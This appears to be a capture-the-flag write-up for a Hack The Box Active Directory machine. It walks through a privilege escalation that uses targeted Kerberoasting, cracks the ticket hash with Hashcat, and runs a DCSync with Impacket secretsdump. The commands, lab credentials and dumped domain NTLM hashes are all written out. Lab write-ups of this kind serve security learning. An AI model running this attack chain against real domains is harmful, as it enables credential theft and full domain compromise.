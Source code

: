 ----
# Privilege Escalation 

> Note: BloodHound was used to identify the relationships and permissions that enabled the following privilege escalation chain.

#### Step 1: Identifying GenericWrite Access

User `EMILY@ADMINISTRATOR.HTB` has **GenericWrite** permissions over `ETHAN@ADMINISTRATOR.HTB`.  
This allows modification of non-protected attributes such as `servicePrincipalName`, which is exploitable via Kerberoasting.

---

#### Step 2: Targeted Kerberoasting

```bash
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

A Kerberos ticket hash for user `ethan` was obtained and cracked using Hashcat:

```bash
hashcat hash.txt rockyou.txt
```

Result:

```
ethan::limpbizkit
```


#### Step 3: Verifying DCSync Rights

BloodHound also confirmed that `ETHAN@ADMINISTRATOR.HTB` has the following domain-level privileges:

* DS-Replication-Get-Changes
* DS-Replication-Get-Changes-All

These privileges allow execution of a DCSync attack using Impacket.

---

## Step 4: Performing DCSync Attack

```bash
impacket-secretsdump 'administrator.htb/ethan:limpbizkit@administrator.htb'
```

Output:

```yaml
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
```

---